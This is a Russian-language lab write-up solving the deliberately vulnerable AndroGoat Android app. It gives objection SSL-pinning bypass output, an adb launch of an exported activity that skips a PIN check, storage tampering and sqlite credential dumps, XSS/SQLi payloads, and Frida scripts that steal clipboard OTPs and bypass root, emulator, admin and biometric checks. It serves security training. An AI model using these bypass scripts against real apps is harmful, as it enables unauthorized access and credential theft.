# Задание 1. Network Intercepting

У нас уже прокинут сертификат бурпа, потому нам надо заставить его отдавать на бурп запросы
```shell
adb reverse tcp:8080 tcp:8080
```

После поднимаем frida-server на МП:
```shell
 adb shell "/data/local/tmp/frida-server &"
```

И в отдельном окне запускаем objection:
```powershell
PS C:\WINDOWS\system32> objection -n owasp.sat.agoat start
(agent) Pre-v17 version of Frida detected. Attempting to use old bridge interface.

     _   _         _   _
 ___| |_|_|___ ___| |_|_|___ ___
| . | . | | -_|  _|  _| | . |   |
|___|___| |___|___|_| |_|___|_|_|
      |___|(object)inject(ion) v1.12.5

     Runtime Mobile Exploration
        by: @leonjza from @sensepost

[tab] for command suggestions
owasp.sat.agoat (run) on (Android: 14) [usb] # android
Unknown or ambiguous command: `android`. Try `help android`.
owasp.sat.agoat (run) on (Android: 14) [usb] # android sslpinning disable
(agent) Custom TrustManager ready, overriding SSLContext.init()
(agent) Found okhttp3.CertificatePinner, overriding CertificatePinner.check()
(agent) Found okhttp3.CertificatePinner, overriding CertificatePinner.check$okhttp()
(agent) Found com.android.org.conscrypt.TrustManagerImpl, overriding TrustManagerImpl.verifyChain()
(agent) Found com.android.org.conscrypt.TrustManagerImpl, overriding TrustManagerImpl.checkTrustedRecursive()
(agent) Registering job 205572. Name: android-sslpinning-disable
(agent) [205572] Called SSLContext.init(), overriding TrustManager with empty one.
(agent) [205572] Called SSLContext.init(), overriding TrustManager with empty one.
(agent) [205572] Called SSLContext.init(), overriding TrustManager with empty one.
(agent) [205572] Called SSLContext.init(), overriding TrustManager with empty one.
(agent) [205572] Called SSLContext.init(), overriding TrustManager with empty one.
(agent) [205572] Called SSLContext.init(), overriding TrustManager with empty one.
(agent) [205572] Called SSLContext.init(), overriding TrustManager with empty one.
(agent) [205572] Called SSLContext.init(), overriding TrustManager with empty one.
(agent) [205572] Called SSLContext.init(), overriding TrustManager with empty one.
(agent) [205572] Called SSLContext.init(), overriding TrustManager with empty one.
(agent) [205572] Called SSLContext.init(), overriding TrustManager with empty one.
(agent) [205572] Called SSLContext.init(), overriding TrustManager with empty one.
(agent) [205572] Called SSLContext.init(), overriding TrustManager with empty one.
(agent) [205572] Called SSLContext.init(), overriding TrustManager with empty one.
(agent) [205572] Called SSLContext.init(), overriding TrustManager with empty one.
(agent) [205572] Called SSLContext.init(), overriding TrustManager with empty one.
(agent) [205572] Called SSLContext.init(), overriding TrustManager with empty one.
(agent) [205572] Called SSLContext.init(), overriding TrustManager with empty one.
(agent) [205572] Called SSLContext.init(), overriding TrustManager with empty one.
(agent) [205572] Called check$okhttp OkHTTP 3.x CertificatePinner.check$okhttp(), not throwing an exception.
(agent) [205572] Called (Android 7+) TrustManagerImpl.checkTrustedRecursive(), not throwing an exception.
(agent) [205572] Called check$okhttp OkHTTP 3.x CertificatePinner.check$okhttp(), not throwing an exception.
(agent) [205572] Called (Android 7+) TrustManagerImpl.checkTrustedRecursive(), not throwing an exception.
(agent) [205572] Called check$okhttp OkHTTP 3.x CertificatePinner.check$okhttp(), not throwing an exception.
owasp.sat.agoat (run) on (Android: 14) [usb] #
```
# Задание 2. Unprotected Android Component

Смотрим на manifest и видим:
```xml
<activity
            android:label="@string/activity"
            android:name="owasp.sat.agoat.AccessControl1ViewActivity"
            android:exported="true">
            <intent-filter>
                <action android:name="android.intent.action.VIEW"/>
                <category android:name="android.intent.category.DEFAULT"/>
                <data
                    android:scheme="androgoat"
                    android:host="vulnapp"/>
            </intent-filter>
        </activity>
```
Больший интерес есть к **android:exported="true">**, он означает, что данный экран (**Activity**) доступен для запуска из других приложений или внешней системы Android

Можно сразу запустить activity без проверки PIN:
```shell
adb shell am start -n owasp.sat.agoat/.AccessControl1ViewActivity
```


# Insecure Data Storage
## Part 1
Просто cat по файлу:


## Part 2
Пишем в `sheredPreferences`:
```bash
sed -i '/name="score"/s/value="[0-9]*"/value="100"/' score.xml
```

Перезапускаем МП и видим решенное


## Part 3

Заходим в директорию бд:
	```bash
cd databases && ls
```

Находим таблицу с пользователями и подключаемся по sqlite:
```bash
sqlite3 androgoat_userpins.db
```

Просматриваем таблицы в бд и выводим пользователей с паролями:
```bash
.tables
select * from user_pins;
```

## Part 4

Тут все просто, когда мы нажимаем кнопку `Verify`, то мы сохраняем наш user+pass в мп:

## Part 5

После нажатия на кнопку `Verify` сохраняется в хранилище sd-карты. Мы должны перейти в нее и искать уже по ней.

Например, я писал в поля значения 123:
```bash
emu64x:/sdcard # grep -r "123"
./Android/data/owasp.sat.agoat/files/users3459974037704683755_tmp: Username - 123 Password -123
```

# Input Validations
## XSS

```js
<script>window.location='https://youtube.com'</script>
<script>alert(123)</script>
```

## SQLi
```sql
qw' OR 1==1;
```

## WebView и QR Code предлагается разобраться самостоятельно!
### Вы все сможете!

# Side Channel Data Leakage

Данный раздел посвящен утечкам данных. Разберем.
## Keyboard Cache
**Keyboard Cache** мы пропустим, потому что может не всегда работать на AOSP (это фича, не баг). 
Но суть такова, что мы можем видеть все введенные слова и символы в бинарном/текстовом виде, включая пароли.
Чтобы защититься от этого необходимо использовать `android:inputType="textPassword"` + `android:importantForAutofill="no"` + `android:privateImeOptions="nm"` (для некоторых клавиатур)

## Insecure Logging


После ввода в поля и нажатии на кнопку, посмотрим на логи с помощью команды `adb logcat`:
```bash
adb logcat | grep -i "owasp\|androgoat\|password\|username"
```



## Clipboard


Приложение позволяет копировать чувствительные данные в буфер обмена. Любое другое приложение на устройстве может прочитать этот буфер.



Пишем фрида-скрипт:
```js
Java.perform(function () {
    var ClipboardManager = Java.use('android.content.ClipboardManager');

    ClipboardManager.setPrimaryClip.overload('android.content.ClipData').implementation = function (clip) {
        var label = clip.getDescription().getLabel().toString();
        var item = clip.getItemAt(0);
        var text = item.getText().toString();

        console.log('OTP:' + text);

        this.setPrimaryClip(clip);
    };
    console.log('Waiting for OTP...');
});
```
# Hardcoded Issues - самостоятельно

# Root detection
Можно сразу отрубить с помощью `objection`:


А можно посмотреть код:

Увидеть, что возвращаются логические переменные в функциях, изменить их возврат для прохождения рута.
```js
Java.perform(function(){
    var RootDetectionActivity = Java.use("owasp.sat.agoat.RootDetectionActivity");
    RootDetectionActivity["isRooted"].implementation = function () {
        console.log(`RootDetectionActivity.isRooted is called`);
        let result = this["isRooted"]();
        console.log(`RootDetectionActivity.isRooted result=${result}`);
        return false;
    };
});
```


# Emulator detection
Напишем скрипт для 'frida'
```js
Java.perform(function(){
    var EmulatorDetectionActivity = Java.use("owasp.sat.agoat.EmulatorDetectionActivity");
    EmulatorDetectionActivity["isEmulator"].implementation = function () {
        console.log(`EmulatorDetectionActivity.isEmulator is called`);
        let result = this["isEmulator"]();
        console.log(`EmulatorDetectionActivity.isEmulator result=${result}`);
        return false;
    };
});
```



# Binary Patching


По коду видим, что есть проверка на админский функционал:


Попробуем напрямую изменить состояние на `true`:
```js
Java.perform(function(){
    var BinaryPatchingActivity = Java.use("owasp.sat.agoat.BinaryPatchingActivity");
    BinaryPatchingActivity.onCreate.overload('android.os.Bundle').implementation = function (savedInstanceState) {
    
        this.isAdmin.value = true;
        console.log('isAdmin set to: ' + this.isAdmin.value);

        this.onCreate(savedInstanceState);
    };
});
```

И у нас получилось!



# Biometric auth

Ну, это вообще хардкод.
Такое советую делать статикой, поскольку smali проще вернуть нужный вызов.

Данный кусок практики лучше решать через фриду, скрипт опишу с комментариями:
```js
Java.perform(function () {

    console.log('Biometric bypass loaded');
    var AuthCallback = Java.use('androidx.biometric.BiometricPrompt$AuthenticationCallback');
    var AuthResult = Java.use('androidx.biometric.BiometricPrompt$AuthenticationResult');
    var BiometricPrompt = Java.use('androidx.biometric.BiometricPrompt');
    var BiometricManager = Java.use('androidx.biometric.BiometricManager');
    // Создаем валидный AuthenticationResult (crypto=null, authType=0)
    var fakeResult;
    
    try {
        fakeResult = AuthResult.$new(null, 0);
        console.log('AuthResult created: ' + fakeResult);
    } catch (e) {
        console.log('$new(null,0) failed: ' + e);
        // Fallback через reflection
        var ctors = AuthResult.class.getDeclaredConstructors();
        for (var i = 0; i < ctors.length; i++) {
            console.log('Available ctor: ' + ctors[i]);
        }
        var ctor = AuthResult.class.getDeclaredConstructors()[0];
        ctor.setAccessible(true);
        var pCount = ctor.getParameterTypes().length;
        if (pCount === 0) fakeResult = ctor.newInstance([]);
        else if (pCount === 1) fakeResult = ctor.newInstance([null]);
        else fakeResult = ctor.newInstance([null, 0]);
        console.log('AuthResult created via reflection');
    }
    // Обход canAuthenticate
    try {
        BiometricManager.canAuthenticate.overload('int').implementation = function (strength) {
            console.log('canAuthenticate -> 0');
            return 0;
        };
    } catch (e) {}
    // failed -> success (с ВАЛИДНЫМ результатом, не null!)
    AuthCallback.onAuthenticationFailed.implementation = function () {
        console.log('onAuthenticationFailed -> forcing success');
        this.onAuthenticationSucceeded(fakeResult);
    };
    // error -> success (с ВАЛИДНЫМ результатом!)
    AuthCallback.onAuthenticationError.overload('int', 'java.lang.CharSequence').implementation = function (code, err) {
        console.log('onAuthenticationError(' + code + ') -> forcing success');
        this.onAuthenticationSucceeded(fakeResult);
    };
    // Бонус: мгновенный success при вызове authenticate (без нажатия Cancel)
    try {
     BiometricPrompt.authenticate.overload('androidx.biometric.BiometricPrompt$PromptInfo').implementation = function (promptInfo) {
            console.log('authenticate() intercepted');
            var fields = this.class.getDeclaredFields();
            var callback = null;
            for (var i = 0; i < fields.length; i++) {
                fields[i].setAccessible(true);
                var val = fields[i].get(this);
                if (val) {
                    var name = val.getClass().getName();
                    if (name.indexOf('AuthenticationCallback') !== -1 || name.indexOf('BioMetricAuthActivity') !== -1) {
                        callback = val;
                        console.log('Found callback: ' + name);
                        break;
                    }
                }
            }
            if (callback && fakeResult) {
                try {
                    var method = callback.getClass().getDeclaredMethod('onAuthenticationSucceeded', [AuthResult.class]);
                    method.setAccessible(true);
                    method.invoke(callback, [fakeResult]);
                    console.log('SUCCESS! Admin dialog shown instantly.');
                    return;
                } catch (e) {
                    console.log('Direct invoke failed: ' + e);
                }
            }
            // Fallback: вызываем оригинал (появится диалог, но Cancel теперь тоже даст success)
            this.authenticate(promptInfo);
        };
    } catch (e) {
        console.log('Authenticate hook skipped: ' + e);
    }

    console.log('[*] Ready. Press the Biometric Auth button.');
});
```

Да, нам с вами пришлось переписать весь `Activity`, но в этом то и вся прелесть, что мы динамически, не пересобирая apk, можем исследовать множество аспектов безопасности.


